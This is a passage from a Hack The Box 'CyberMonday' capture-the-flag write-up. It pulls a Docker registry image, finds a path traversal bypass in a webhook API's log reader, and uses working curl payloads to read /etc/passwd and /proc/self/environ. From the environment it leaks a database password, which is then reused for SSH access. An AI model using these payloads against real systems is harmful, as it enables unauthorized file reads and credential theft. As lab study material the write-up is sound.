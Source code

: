 # Reading the Source

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[**Reading the Source**](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have access to an internal Docker registry, let's use `curl` to see if we can get a list of images the registry contains.
```bash
curl http://<registry ip>:5000/v2/_catalog

{"repositories":["cybermonday_api"]}
```

It looks like this registry holds the image for the webhook API. We can download this image to look through the source and see if we can spot any vulnerabilities to exploit. While we could configure our local Docker version to use the `SOCKS` proxy and download the image that way, since we're not looking to actually run the container it's probably easier to download [DockerRegistryGrabber](https://github.com/Syzik/DockerRegistryGrabber) and get the image that way.
```bash
proxychains python3 DockerGraber.py http://<registry ip> --dump cybermonday_api

[+] BlobSum found 27
[+] Dumping cybermonday_api
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d6...
```

Once we have all the blobs we can extract them all with:
```bash
for f in *.tar.gz; do tar xf "$f"; done
```

And now we have the filesystem for the `cybermonday_api` container. The source for the webhook API can be found in `/var/www/html`. Looking through this source code, we see there's an undocumented endpoint for `createLogFile` type webhooks that lets us list and read the logs that are created. It also requires a different type of authentication to the token we've been using. Let's run the `list` action on the original webhook we found in the changelog.
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "list"}'

{"status":"success","message":[...]}
```

If you made any requests to create a log earlier, you'll see them listed here. Next we want to test the read function.
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": "test-<timestamp>.log"}'

{"status":"success","message":"test"}
```

Okay so we get the basic idea, you create logs with the webhook then read them here. The read log function checks for path traversal with a `regex` pattern and makes sure the file has `log` in the name. But if you look closer you might spot a problem. Theres a string substitution made _after_ the `regex` check.
```php
preg_match("/\.\.\//", $logName)
str_replace(' ', '', $logName)
```

Which means we can still abuse this endpoint for path traversal. We need to also be sure to include `log` in the name, but for that we can just re-enter the `/logs` directory and back out again. So a request to fetch `/etc/passwd` would look like this:
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./etc/passwd"}'

{"status":"success","message":"root:x:0:0:root:\/root:\/bi..."}
```

Now we have path traversal, but what can we do with it? The code uses `file_get_contents` rather than `include` so we can't inject any code. We could try and see if another `.env` file exists.
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./var/www/html/.env"}'

{"status":"error","message":"This log does not exist"}
```

No luck. But there is one file we can request the might be useful. Linux has a number of virtual directories in `/proc` that let you get the state of different processes. For the [[php|PHP]] server itself we can use `/proc/self`, and in particular `/proc/self/environ`.
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./proc/self/environ"}'

{"status":"success","message":"HOSTNAME=e1862f4e1242\u0000PHP..."}
```

This gives us the environment variables set for the PHP server process. If we look carefully, we see one variable that might be of use.
```bash
DBPASS=<password>
```

It's pretty buried in there and can be easy to miss with the JSON formatting, but we can see a password in the environment that might just be what we're looking for. If we try to `ssh` to the host using the username we found earlier and this password:
```bash
ssh john@<host ip>
john@<host ip>'s password:

john@cybermonday:~$ 
```

Success. Grab the flag in `user.txt` and then let's continue on to root.

Next: [Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)